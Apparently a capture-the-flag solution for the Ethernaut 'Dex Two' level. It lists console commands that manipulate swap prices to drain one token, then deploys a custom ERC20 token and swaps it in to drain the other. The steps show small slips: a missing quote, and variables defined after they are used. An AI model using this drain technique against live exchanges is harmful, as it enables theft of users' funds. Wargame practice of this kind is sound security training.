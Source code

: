 [23 - Dex Two](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

Token1: 0x42259ce074f426E5FBac1bbE270707cBeada3Fa8
Token2: 0x0dcfF8e59a9cD5f4d90EF977a454C0f1F61c082E

* await contract.approve(contract.address, 10000000);
* await contract.swap(token1, token2, 10);
* await contract.swap(token2, token1, 10);
* await contract.swap(token1, token2, 12);
* const token1 = await contract.token1(); const token2 = await contract.token2();
* await contract.swap(token2, token1, 22);
* await contract.swap(token1, token2, 27);
* await contract.swap(token2, token1, 35);
* await contract.swap(token1, token2, 51);
* await contract.swap(token2, token1, 15);
* await contract.balanceOf(token1, contract.address) gives 0;
* await contract.balanceOf(token2, contract.address) gives 30;

Deploy ERC20
```
// contracts/Token.sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Token is ERC20 {
    constructor(uint256 initialSupply) ERC20("Token", "TKN") {
        _mint(msg.sender, initialSupply);
    }
}
```

* myERC20.transfer("0xE28AD5d577A1a45c629972A2728Db6A625e4C071", 30);
* myERC20.approve("0xE28AD5d577A1a45c629972A2728Db6A625e4C071, 30);
* const token3 = "0x6Df581c9a2E57f1241605D0EC43368CE39a4d7b2";
* await contract.swap(token3, token2, 30);

